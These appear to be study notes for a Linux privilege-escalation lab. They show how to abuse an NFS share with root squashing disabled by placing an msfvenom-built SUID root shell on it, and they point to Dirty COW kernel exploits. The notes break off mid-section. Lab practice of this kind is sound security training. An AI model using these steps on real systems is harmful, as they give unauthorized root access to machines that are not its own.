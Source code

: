 ```


8.  NSF  (mounting shares)


Files created via NFS inherit the remote user's ID. If the user is root, and root squashing is enabled, the ID will instead be set to the "nobody" user.

Check the NFS share configuration on the Debian VM:

```cat /etc/exports```

Note that the /tmp share has root squashing disabled.

On your Kali box, switch to your root user if you are not already running as root:

```sudo su```

Using Kali's root user, create a mount point on your Kali box and mount the /tmp share (update the IP accordingly):
```
mkdir /tmp/nfs
mount -o rw,vers=2 10.10.10.10:/tmp /tmp/nfs
```
Still using Kali's root user, generate a payload using msfvenom and save it to the mounted share (this payload simply calls /bin/bash):
```
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
```
Still using Kali's root user, make the file executable and set the SUID permission:
```
chmod +xs /tmp/nfs/shell.elf
```
Back on the Debian VM, as the low privileged user account, execute the file to gain a root shell:

```/tmp/shell.elf```






Kernell 


dirty cow     Linux Kernel <= 3.19.0-73.8

whoami   == verify user

uname -a   == verify vulnerability

download the cow,
https://www.exploit-db.com/exploits/40839/

other versions,
https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs

```
user@debian:~$ perl /home/user/tools/kernel-exploits/linux-exploit-suggester-2/linux-exploit-suggester-2.pl
